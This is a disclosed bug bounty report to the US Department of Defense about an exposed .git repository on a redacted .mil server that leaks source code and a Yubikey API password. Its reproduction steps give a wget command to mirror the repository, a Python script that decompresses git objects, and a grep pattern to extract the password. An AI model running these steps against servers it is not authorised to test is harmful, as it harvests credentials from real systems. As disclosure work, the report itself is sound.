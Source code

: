 # Git repo on https://██████.mil/ discloses API password

## Report Details
- **Report ID**: 765825
- **URL**: https://hackerone.com/reports/765825
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-12-29T16:49:49.871Z
- **Disclosed**: 2021-03-24T20:49:00.187Z

## Reporter
- **Username**: al-madjus
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
I found a .git repository on https://███████.mil/.git which discloses an API password for Yubikey on 2 different domains, together with full source code. 

**Description:**
Fetching the git repository and decompressing the objects results in the ability to read the source code of the server, which includes an API password for the Yubikey hardware authentication software. The API however does not appear to be functional on the main domain, but since the repository is very recent, I cannot be certain that it'll stay non-functional. 
Additionally, the server discloses info.php at https://███████.mil/info.php. I'm uncertain if this should be reported separately, any comments on this would be very welcome! 

## Impact
I'm rating the impact of this primarily as an information disclosure. The repository appears to have been active within the past months, so any future additions will be disclosed too. 
I was unable to use the found password as the API appears to be currently non-functional, but since the repo is active I would expect the server to be worked upon, and the API to be functional in the future. For this reason I've decided to make you aware of the issue. 
Also, even if the password were to be changed, it would of course still be disclosed on the repository. 
Furthermore, the repository discloses the full source code of the served pages. 

## Step-by-step Reproduction Instructions

1. Fetch the repo with wget:

`wget --no-parent -r https://█████.mil/.git/ --no-check-certificate`
2. Write the following python script (remember to update the 'pwd' variable): 

`import zlib
import os
pwd = INSERT FULL PATH WHERE THE REPO WAS DOWNLOADED + '█████████.mil/.git/objects/'
for subdir, dirs, files in os.walk(pwd):
    for file in files:
        if not file.startswith("index"):
            filename = subdir + '/' +  file
            compressed_contents = open(filename, 'rb').read()
            decompressed_contents = zlib.decompress(compressed_contents)
            print(str(decompressed_contents) + '\n')`

The script is also attached as a file. 
3. Run the script with 

`python gitreader.py | grep -i -E -o ".{0,138}restPW.{0,22}"`

Which greps the output for the string where the password is, together with the paths/domains. 
Of course, the full contents of the repository are available to look through. 

Example output: 
`'https://███`

## Product, Version, and Configuration (If applicable)

## Suggested Mitigation/Remediation Actions
Remove the .git repository from the server, since it contains sensitive information.

## Impact

I'm rating the impact of this primarily as an information disclosure. The repository appears to have been active within the past months, so any future additions will be disclosed too. 
I was unable to use the found password as the API appears to be currently non-functional, but since the repo is active I would expect the server to be worked upon, and the API to be functional in the future. For this reason I've decided to make you aware of the issue. 
Also, even if the password were to be changed, it would of course still be disclosed on the repository. 
Furthermore, the repository discloses the full source code of the served pages.

## Attachments
No attachments
